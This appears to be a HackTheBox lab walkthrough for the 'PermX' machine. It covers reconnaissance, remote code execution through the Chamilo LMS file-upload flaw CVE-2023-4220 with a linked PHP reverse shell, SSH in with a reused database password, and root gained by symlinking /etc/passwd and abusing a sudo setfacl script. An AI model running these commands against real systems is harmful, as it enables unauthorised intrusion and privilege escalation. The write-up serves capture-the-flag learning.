 ==============================

![captionless image](https://miro.medium.com/v2/resize:fit:1388/format:webp/1*_d1GtfPjVEoaekQliy8MHg.png)

[Reference](https://medium.com/@misterxcrypt/hackthebox-walkthrough-permx-f90a1943b156?source=your_stories_page-------------------------------------) by [MrXcrypt](https://medium.com/@misterxcrypt?source=post_page---byline--f90a1943b156--------------------------------)

Introduction
============

In this write-up, We’ll go through an easy Linux machine where we first gain initial foothold by exploiting a CVE, followed by manipulating Access Control Lists (ACL) to achieve root access. #easy #linux #CVE #ACL #writeup #walkthrough #HackTheBox 

Reconnaissance 
==============

1.  After Starting the machine, I set my target IP as $target environment variable and ran nmap command. #nmap #recon 

**_Command — Port Scan: Nmap_**

```
nmap $target --top-ports=1000 -sV -v -sC  -Pn > nmap.out
```
![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*1qz0O71h3AqcbCD7VeASTA.png)

2. Then, As usual I added the host:permx.htb in /etc/hosts.

3. While enumerating the website, I started directory fuzzing and subdomain fuzzing in the background.

**_Command — Subdomain Fuzzing: Fuff_** #ffuf

```
ffuf -w /home/mrrobot/Downloads/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -u http://permx.htb/ -H "Host:FUZZ.permx.htb" -v -fw 18
```
![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*ZxZdxch6UiAztb-E6oOIVg.png)

**_Command — Directory Fuzzing: Gobuster_** #gobuster

```
gobuster dir -u http://permx.htb -w /home/mrrobot/Downloads/wordlists/SecLists/Discovery/Web-Content/raft-medium-directories.txt
```
![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*w1_sof_5FuwzQWYPSi9_8Q.png)

4. Let’s Explore the Subdomain: lms.permx.htb which seems interesting.

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*6llkY6QRohOwr97AhecMDw.png)

5. Using Wappalyzer, I found that the version is Chamilo version 1. #wappalyzer

6. When checking for ‘chamilo lms exploit’, I came across this link. #chamilo #lms #Exploit 

**Exploit:** [https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc)

Initial Foothold
================

1.  Learn about the exploit in this link

**Article:** [https://starlabs.sg/advisories/23/23-4220/](https://starlabs.sg/advisories/23/23-4220/)

_CVE-2023–4220 Description_
---------------------------

> _Unrestricted file upload in big file upload functionality in_ `_/main/inc/lib/javascript/bigupload/inc/bigUpload.php_` _in Chamilo LMS <= v1.11.24 allows unauthenticated attackers to perform stored cross-site scripting attacks and obtain remote code execution via uploading of web shell._

2. You can also use the knowledge from the above article to exploit this vulnerability or also you can use the above Github tool to easily to exploit it. #RemoteCodeExecution #XSS #webshell

3. I used the PHP reverse shell from PentestMonkey to craft a reverse shell and followed the PoC (Proof of Concept) in that article to get a reverse shell. #php #ReverseShell #CVE-2023-4220 #POC

**PHP Reverse Shell:** [https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)
#phpreverseshell
**Exploit:**
------------
#exploitation
![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*FFq34KXpgmeGFag__UJiCA.png)

**Reverse Shell Listener:**
---------------------------

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*_5-duRzHfVPo2slKc57evA.png)

**_Command — Spawn Bash shell: python one-liner_**

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

1.  The above command will spawn the bash shell which is more stable.
2.  Now, as a www-data user, We don’t have much permission.

Lateral Movement
================

i. User Flag
============

1.  After checking what files are available in the system. I thought of finding files which are owned by ’www-data’

**_Command — Files owned by a user: find_** #find #userflag

```
find / -user www-data 2>/dev/null | grep -v '/proc\|/run\|/var/www'
```
![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*_5-duRzHfVPo2slKc57evA.png)

2. I tried running linpeas, but nothing interesting turned out. But I found an interesting file ‘configuration.php’. #linpeas

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*Ud8ITcmFvOv9Oi2SUIu3Pw.png)

3. So I ran a find command to check for any other ‘configuration.php’ file in chamilo application.

**_Command — Finding config file: find_**

```
find / -name configuation.php 2>/dev/null
```
![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*No--SpCl_unGnuI1VS4gPQ.png)

4. Upon opening the file ‘/var/www/chamilo/app/config/configuration.php’, I found the ‘database connection settings’.

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*RhEtJK3nFQalBMGeU1nPhA.png)

5. There are two users in this system. We can find this using the following command:

**_Command — Finding users: /etc/passwd_**

```
cat /etc/passwd | grep
```
![captionless image](https://miro.medium.com/v2/resize:fit:1294/format:webp/1*Vng6EC-FQUCHl_XS8bqB7Q.png)

6. Let’s try ssh using the password from the configuration file.

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*5CEfMgKqbOnxIIeiOGx_Zw.png)

ii. Root Flag
=============

1.  Now, We have a low privileged user access. First run the usual command to find the sudo privileged files. #rootflag #PrivilegeEscalation

**_Command — Sudo Privileged files: sudo_** #sudo

```
sudo -l
```
![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*IBO9k4iwXcoUR_EPokq7Mw.png)

2. Let’s read the contents of the file ‘/opt/acl.sh’.

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*JuJOrYCimPsqX_AHJsGKiw.png)

3. Understand the script and it’s functionality.

**Things to Note**
------------------

> _This script uses_ `_sudo setfacl_` _to assign the specified permissions to the given user._
> 
> _$1: user — the user for whom ACL permissions will be set.
> $2: perm — the permissions (e.g., rwx).
> $3: file — the file on which permissions will be set._
> 
> The script gets three arguments: user, permission, target file.
> 
> We can use this script to modify permissions of any file which is in the home directory of user ‘mtz’.
> 
> If we able to link any important to a file in the home directory of mtz, we can change the permission using the /opt/acl.sh script.

**_Command — Symbolic link: ln_** #ln

```
ln -s /etc/passwd /home/mtz/passwd1
```
![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*uDjISkF0rd06kyI2n3PBBQ.png)

4. This command creates a symbolic link of the ‘/etc/passwd’ file to a file ‘/home/mtz/passwd1’.

5. Since this symbolic file is in the home directory of the user ‘mtz’, we can change the permission of the file using the available script ‘/opt/acl.sh’.

**_Command — Using the script: /opt/ach.sh_**

```
sudo /opt/acl.sh mtz rwx /home/mtz/passwd1
```

6. This command changes the permission of the symbolic file /home/mtz/passwd1.

7. Now, We can just delete the password of the root and change the user to ‘root’.

8. We just deleted the ‘x’ in `root:x:0:0:root:/root:/bin/bash`. It will delete the password of the root.

9. Then we can use the command `su root` to become root.

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*7VBlRq4SidDsjXSbJ7_e7g.png)

Now, We are ROOT! Thanks for Reading. Happy hacking!!

